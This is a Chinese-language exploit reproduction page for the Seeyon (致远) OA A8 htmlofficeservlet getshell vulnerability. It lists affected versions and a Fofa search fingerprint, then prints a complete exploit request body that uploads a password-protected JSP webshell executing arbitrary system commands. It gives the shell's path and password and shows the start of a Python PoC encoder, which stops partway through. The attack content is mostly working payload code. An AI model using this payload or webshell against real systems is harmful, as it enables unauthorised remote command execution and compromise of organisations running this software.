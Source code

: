 致远 OA A8 htmlofficeservlet getshell 漏洞
==========================================

一、漏洞影响
------------

致远A8-V5协同管理软件 V6.1sp1

致远A8+协同管理软件 V7.0、V7.0sp1、V7.0sp2、V7.0sp3

致远A8+协同管理软件 V7.1

二、复现过程
------------

### 指纹

    Fofa：app="用友-致远OA"

![0d4b978ed1474946.png](./resource/致远OAA8htmlofficeservletgetshell漏洞/media/rId25.png)

    DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV
    OPTION=S3WYOSWLBSGr
    currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
    CREATEDATE=wUghPB3szB3Xwg66
    RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
    originalFileId=wV66
    originalCreateDate=wUghPB3szB3Xwg66
    FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
    needReadFile=yRWZdAS6
    originalCreateDate=wLSGP4oEzLKAz4=iz=66
    <%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("asasd33445".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>6e4f045d4b8506bf492ada7e3390d7ce

webshell地址为**/seeyon/test123456.jsp**，密码为：asasd3344。

### poc

    from sys import argv
    
    letters = "gx74KW1roM9qwzPFVOBLSlYaeyncdNbI=JfUCQRHtj2+Z05vshXi3GAEuT/m8Dpk6"
    
    def base64_encode(input_str):
        str_ascii_list = ['{:0>8}'.format(str(bin(ord(i))).replace('0b', ''))
                          for i in input_str]
        output_str = ''
        equal_num = 0
        while str_ascii_list:
            temp_list = str_ascii_list[:3]
            if len(temp_list) != 3:
                while len(temp_list) < 3:
                    equal_num += 1
                    temp_list += ['0' * 8]
            temp_str = ''.join(temp_list)
            temp_str_list = [temp_str[x:x + 6] for x in [0, 6, 12, 18]]
            temp_str_list = [int(x, 2) for x in temp_str_list]
            if equal_num:
                temp_str_list = temp_str_list[0:4 - equal_num]
            output_str += ''.join([letters[x] for x in temp_str_list])
            str_ascii_list = str_ascii_list[3:]
        output_str = output_str + '=' * equal_num
        return output_str
    